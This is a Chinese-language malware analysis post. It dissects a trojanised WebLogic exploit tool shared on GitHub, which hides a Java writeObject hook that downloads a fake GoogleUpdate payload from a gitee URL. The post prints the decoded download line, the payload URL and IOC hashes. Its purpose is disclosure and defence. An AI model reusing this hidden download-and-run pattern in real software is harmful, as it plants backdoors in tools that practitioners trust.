# RealWorld｜针对某特殊群体的供应链打击

作者：Dm、Superdong、毁三观大人、l1nk3r、Five star

- - -

  

大概在 4 月 19 号，我们注意到某步社区中有一个匿名帖子，贴子地址：https://m.threatbook.cn/detail/6192  

  

贴子内容如下

  



  

其中提到了一个 weblogic 漏洞利用工具，项目地址是 https://github.com/DesaiParekh/weblogic\_cmd\_plus（截至发文，项目已被删除）

  



本着学习的精神去看了项目，但是发现这个项目并没有把源码公开，只是分享了一个工具

下载工具到本地，是一个压缩包

  



解压压缩包，内容如下



查看项目中的教程，工具用法应该是

```plain
java -jar weblogic_cmd_plus.jar -scanip 127.0.0.1 -scanport 7001 -scan
```

教程见下图



把项目脱到 idea 中，反编译 jar 包，随便查看了一些 class 文件，发现看不到具体的源码，只能看到如下图这种类似类声明的内容  



因为这个 T3VulnerabilityCheck.class 大概有 13k，所以内容不太可能是这种类声明


尝试使用 javap 查看对应字节码，如下图



查看字节码还是有很多内容的，观察了一会，我们注意到一个频繁出现的字符串

```plain
ALLATORIxDEMO
```

在互联网搜索一下这个字符串，发现这个字符串是一款 java 混淆工具加密后特有的内容

  

这款 java 混淆工具名字叫 Allatori，官网是 http://www.allatori.com/

  

我们开始好奇为什么这个工具要使用混淆工具混淆代码，难道这里有什么不可告人的秘密嘛？

  

（当然我们如果直接运行工具也可以看到使用了 Allatori，因为工具运行后直接就输出了 Allatori）

  

- - -

**样本测试**

  

把工具放到虚拟机里运行，打开各种分析工具，开始分析这个 jar 包的行为

  

尝试各种命令运行，当使用

```plain
java -jar weblogic_cmd_plus.jar -scanip 192.168.0.1/24 -scanport 7001 -scan -t 20
```

执行以后，发现一个有意思的现象  

  





怎么突然多了个 GoogleUpdate.exe？



好家伙，你一个 GoogleUpdate.exe 用的腾讯的签名？难道说？   

- - -

**样本分析**  

  

在上一步已经明确了这个工具有问题，这里我们开始分析这个 jar 包到底是如何工作的  

  

因为在 idea 中反编译效果太差，我一度想硬扣一下字节码

  

把反编译工具换成 jadx 以后，内容正常了

  

代码中很多地方都使用了 Allatori 进行加密，我在想是不是应该去解密一下，在网上找到一篇介绍 Allatori 如何加密的，学习了一下，地址如下 https://zhuanlan.zhihu.com/p/342386478

  

文章中提到 Allatori 大概有两种加密方式，一种是强加密方式，会通过调用堆栈获取到当前执行的类、方法名（不太严谨）作为解密的依据，另外一种是简单的运算，算法比较简单

  

找了一会解密 Allatori 的工具，用了几个都失败了，不过这里工具混淆的内容相对好一点，代码不解密其实也可以看出来一些实现的逻辑

  

正好刚才我们在样本测试的时候发现，这个工具的恶意代码触发逻辑可能是和 ip 有关，我们就重点关注一下 ip 处理相关的类

  

发现 com.supeream.utils.IpUtil 这个类可能有一些问题

  

第一，他在 import 的时候居然引用了 java.io.ObjectOutputStream，java.lang.reflect.Constructor，sun.misc.Unsafe 这三个类

第二，在 getIpFromString 这个方法里使用了 Class.forName 和 writeObject

  



  

因为加密和编码的问题，我们看不到具体是加载了什么类  

  

其实这种加密我们在代码里都可以找到对应解密方式，本地自己实现一个解密也很快，查看了我们可能会重点关注的类以后，发现那些类都使用的强加密方式（堆栈方式），思考了一会决定不在加解密下功夫，尝试 debug 一下这个 jar 包

  

在 idea 里用几个方法 debug 都失败了（可能是我环境没配置对），无语，换个思路  

  

想了一下还是用最古老的方法 debug 最稳当

  

使用 jdb 来 debug 这个 jar 包

  

jar 运行开启 debug 模式

```plain
java -Xdebug -Xrunjdwp:transport=dt_socket,address=javadebug,server=y,suspend=y -jar weblogic_cmd_plus.jar -scanip 192.168.0.1/24 -scanport 7001 -scan -t 20
```

使用 jdb 连接（这里的 port 是随机的，我这里直接粘贴我的配置了）

```plain
jdb -connect com.sun.jdi.SocketAttach:hostname=localhost,port=49226
```

在 main 方法打一个断点，然后运行

```plain
stop in com.supeream.Main.main

run
```

开始慢慢 debug



大概执行了无数次 step 以后，我终于想起来我是来解密 class.forName 到底是加载什么类的

重新 debug，设置断点  

```plain
stop in com.supeream.utils.IpUtil.getIpFromString

run
```

step 了一会，我们进入到 com.supeream.serial.BytesOperation 这个类

现在我们可以使用这个类的 hexStringToString 在 jdb 中解码了

```plain
eval com.supeream.serial.BytesOperation.hexStringToString("7765626c6f6769632e6a3265652e64657363726970746f722e496e746572636570746f724265616e496d706c")
```

解码后内容是 weblogic.j2ee.descriptor.InterceptorBeanImpl



当然，如果继续跟代码，也会进入到 weblogic.j2ee.descriptor.InterceptorBeanImpl 这个类中

  

使用 jadx 打开 weblogic.j2ee.descriptor.InterceptorBeanImpl 这个类，我差点笑出了声，如果真的是 weblogic 的类，会 import 一个 com.github.kevinsawicki.http.HttpRequest 嘛？

  



结合之前 getIpFromString 出现过的 writeObject，我想起来一个 java 反序列化中的一个小知识点  

```plain
当对某一个类进行序列化的时候，如果目标类自己实现了 writeObject，会调用目标类自己实现的 writeObject
```

根据这个小知识点，我在 InterceptorBeanImpl 里搜索一下 writeObject

  

**bingo!** 

  



仔细观察这个 writeObject，发现他使用 com.github.kevinsawicki.http.HttpRequet.get 去下载了一个文件

```plain
HttpRequest.get(hexStringToString("68747470733a2f2f67697465652e636f6d2f666f786b696e673030372f666f7872617069642d6b696e672f6174746163685f66696c65732f3637313939372f646f776e6c6f61642f476f6f676c655570646174652e7a6970")).receive(new File(hexStringToString2));
```

本地实现一下这个 hexStringToString  

解码内容如下



```plain
https://gitee.com/foxking007/foxrapid-king/attach_files/671997/download/GoogleUpdate.zip
```

（截至发稿，文件已失效）  

  

这个文件名符合我们在样本测试阶段观察到的事实

  

如果谁感兴趣后续动作可以自己去跟一下代码逻辑，我们到这里就不再继续分析了

  

总的来说，如果不是好奇他这个项目是怎么实现的，很难发现这个工具其实是一个马

  

请各位同行严查自己、部门、朋友有没有下载、运行过这个工具  

  

  

- - -

  

样本信息：  

  

|     |     |
| --- | --- |
| 名称  | md5 |
| weblogic\_cmd\_plus.zip | 9dc3224bdb48a2733cb10c9b6a6d728f |
| weblogic\_cmd\_plus.jar | 9cbf87345b26b8a0c915fccae1bae08a |
| GoogleUpdate.exe | 42165a4e1c4ec725ef87eaf50f0dd6a9 |
| QMLogEx.dll | 31fb6e738e5ddd3d6fe686f6e1ca401c |